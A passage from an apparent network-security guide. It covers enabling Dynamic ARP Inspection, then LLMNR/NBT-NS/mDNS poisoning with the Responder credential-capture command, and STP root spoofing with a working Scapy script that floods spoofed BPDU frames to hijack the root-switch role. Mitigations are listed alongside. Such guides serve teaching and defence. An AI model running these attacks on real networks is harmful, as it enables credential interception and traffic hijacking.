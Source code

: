 After finishing the configuration and making sure that the required static addresses are assigned and the DHCP Snooping table is fully saturated, we enable DAI itself. DAI, like DHCP Snooping, is enabled on VLAN segments

```
Monster(config)# ip arp inspection vlan <VLAN ID>
```

## LLMNR/NBT-NS/mDNS Poisoning

A common attack against Windows networks. The attacker responds to all queries of these protocols and gives its address when the computer searches for the target host name.

### Attack Impact

Credentials Interception against Windows hosts

### Tools

[Responder](https://github.com/lgandx/Responder)

```bash
sudo responder -I ethX -vv
```

### Mitigations

Disabling the LLMNR and NBT-NS protocols. But disabling MDNS is more complicated, as it is used for printers, macOS, Chromecast. However, attacks on mDNS can be monitored at the IDS level. There is a risk of network disruption if MDNS traffic is restricted.

## STP Root Spoofing

The essence of this attack is to hijack the role of the root switch by injecting the BPDU frame with the lowest priority value. However, this will only result in a partial MITM attack.

### Attack Impact

Partial MITM

### Tools

Scapy

```python
from scapy.all import *

INTERFACE = "eth0"
ATTACKER_MAC = "00:11:22:33:44:55"
STP_MCAST = "01:80:C2:00:00:00"

def spoof():
    frame = Dot3(src=ATTACKER_MAC, dst=STP_MCAST)
    llc_layer = LLC(dsap=0x042, ssap=0x042, ctrl=3)
    mal_bpdu = STP(rootmac=ATTACKER_MAC, bpduflags=0x01, bridgemac=ATTACKER_MAC)
    mal_stp_bpdu = frame / llc_layer / mal_bpdu
    print("[!] Beginning of root switch role hijacking. . .")
    sendp(mal_stp_bpdu, iface=INTERFACE, inter=2, loop=1, verbose=1)

spoof()
```
